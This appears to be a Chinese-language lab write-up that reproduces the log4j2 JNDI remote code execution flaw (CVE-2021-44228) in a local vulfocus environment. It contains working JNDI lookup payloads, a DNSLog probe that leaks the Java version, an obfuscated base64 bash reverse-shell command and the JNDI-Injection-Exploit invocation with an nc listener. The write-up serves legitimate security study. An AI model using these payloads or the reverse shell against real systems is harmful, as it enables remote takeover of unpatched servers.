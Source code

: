 # log4j2 远程代码执行漏洞复现（CVE-2021-44228）
## 实验环境
- 靶机IP:192.168.157.131
- 攻击机IP:192.168.157.131
  
## vulfocus环境搭建
安装docker并重新配置镜像源后，克隆黄大师仓库，一键搭建漏洞实验环境
```bash
git clone https://github.com/c4pr1c3/ctf-games.git
cd ctf-games/fofapro/vulfocus
bash start.sh
```
![](./img/启动一键搭建脚本.png)

访问192.168.157.131，在镜像管理或者终端中拉取镜像
```bash
docker pull vulshare/nginx-php-flag:latest
docker pull vulfocus/struts2-cve_2020_17530:latest
docker pull vulfocus/weblogic-cve_2019_2725:latest
docekr images
```
![](./img/查看已拉取镜像.png)
![](./img/网页查看已有镜像.png)

## DNSLog测试
启动环境后，使用 !(DNSLog)[http://dnslog.cn/] 平台获取一个域名bovzn6.dnslog.cn
使用该子域名构造payload:
```
${jndi:ldap://bovzn6.dnslog.cn}
```
通过点击靶场环境中?????发现请求文件hello并给参数payload传入111
![](./img/查看靶场payload.png)

将刚刚获取的子域名进行url编码获得：
```
%24%7bjndi%3aldap%3a%2f%2fbovzn6.dnslog.cn%7d
```
![](./img/子域名编码.png)
发送请求：
```
http://192.168.157.131:19719/hello?payload=%24%7bjndi%3aldap%3a%2f%2fbovzn6.dnslog.cn%7d
```
![](./img/查看靶场payload.png)

回到 DNSLog 平台，刷新记录看到 DNSLog 平台成功接收到解析记录
![](./img/第一次解析记录.png)

接下来构造payload获取java版本
```
${jndi:ldap://${sys:java.version}.bovzn6.dnslog.cn}
```
进行url编码获得：
```
%24%7bjndi%3aldap%3a%2f%2f%24%7bsys%3ajava.version%7d.bovzn6.dnslog.cn%7d
```
![](./img/payload获取Java版本编码.png)

进行同样操作后返回DNSLog刷新纪录，可以发现执行了sys:java.version 命令
成功获取java版本号为1.8.0_312
![](./img/获得java版本.png)

## 漏洞利用
### JNDI注入工具安装
```bash
git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
```

切换到 JNDI-Injection-Exploit 目录,编译安装
```
cd JNDI-Injection-Exploit
mvn clean package -DskipTests
```
![](./img/构建JNDI环境.png)

## 工具用法
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "想要执行的命令" -A "攻击机的ip"
```

## 构造反弹shell命令
对下面的指令进行base64编码
```
bash -i >& /dev/tcp/192.168.157.131/8000 0>&1
```
获得
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1Ny4xMzEvODAwMCAwPiYx}|{base64,-d}|{bash,-i}
```
![](./img/bash64编码.png)

进入target目录后执行下面的指令：
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1Ny4xMzEvODAwMCAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.157.131"
```
成功部署rmi和ldap的站点并且得到payload路径
![](./img/部署站点.png)

## 开启端口监听
新建一个终端，监听对应端口，此处我使用的是8000
```bash
nc -lvvp 8000
```

## 启动JNDI工具
![](./img/启动JNDI工具.png)

